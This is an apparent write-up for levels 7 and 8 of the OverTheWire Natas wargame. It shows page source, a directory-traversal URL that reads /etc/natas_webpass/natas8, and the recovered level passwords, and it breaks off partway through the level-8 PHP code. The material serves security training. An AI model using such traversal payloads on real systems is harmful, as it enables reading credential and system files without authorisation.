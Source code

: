 
## Natas Level 6 → Level 7
Username: natas7
URL:      http://natas7.natas.labs.overthewire.org
7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

```py
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>

<body>
  <h1>natas7</h1>
  <div id="content">
  <a href="index.php?page=home">Home</a>
  <a href="index.php?page=about">About</a>
  <br>
  <br>
  this is the front page
  <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
  </div>
</body>
</html>
--------------------------------------------------------
we can get the password from "etc/natas_webpass/natas8"
assume this is a Directory Traversal Attack.
--------------------------------------------------------
Home: http://natas7.natas.labs.overthewire.org/index.php?page=home
remove home and add "/etc/natas_webpass/natas8".
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
--------------------------------------------------------
Home About
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

---

## Natas Level 7 → Level 8
Username: natas8
URL:      http://natas8.natas.labs.overthewire.org
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

```py
--------------------------------------------------------
View "sourcecode"
--------------------------------------------------------
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
</head>

<body>
<h1>natas8</h1>
<div id="content">
<?
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}

if(array_key_exists("submit", $_POST)) {
    if(encodeSecret($_POST['secret']) == $encodedSecret) {
```